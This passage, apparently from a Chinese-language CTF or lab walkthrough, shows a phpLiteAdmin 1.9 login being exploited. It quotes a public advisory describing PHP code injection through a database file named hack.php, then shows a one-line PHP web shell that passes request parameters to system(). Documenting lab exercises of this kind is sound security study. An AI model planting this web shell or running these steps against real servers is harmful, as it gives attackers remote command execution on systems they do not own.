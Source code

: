 ![image-20211019000332266](http://cdn.mxrblog.cn/image-20211019000332266.png)



- 使用得到的密码进行登录

![image-20211019020206342](http://cdn.mxrblog.cn/image-20211019020206342.png)

- 使用searchsploit 查看phpLiteAdmin 1.9 版本是否存在漏洞

![image-20211019020421962](http://cdn.mxrblog.cn/image-20211019020421962.png)

- 查看漏洞内容

```
Description:

phpliteadmin.php#1784: 'Creating a New Database' =>
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

- 按照提示创建名为hack.php的数据库， 并向里面填入攻击代码

```
<?php echo system($_REQUEST["cmd"]); ?>
```

![image-20211019021537092](http://cdn.mxrblog.cn/image-20211019021537092.png)

![image-20211019032019242](http://cdn.mxrblog.cn/image-20211019032019242.png)

![image-20211019032043837](http://cdn.mxrblog.cn/image-20211019032043837.png)
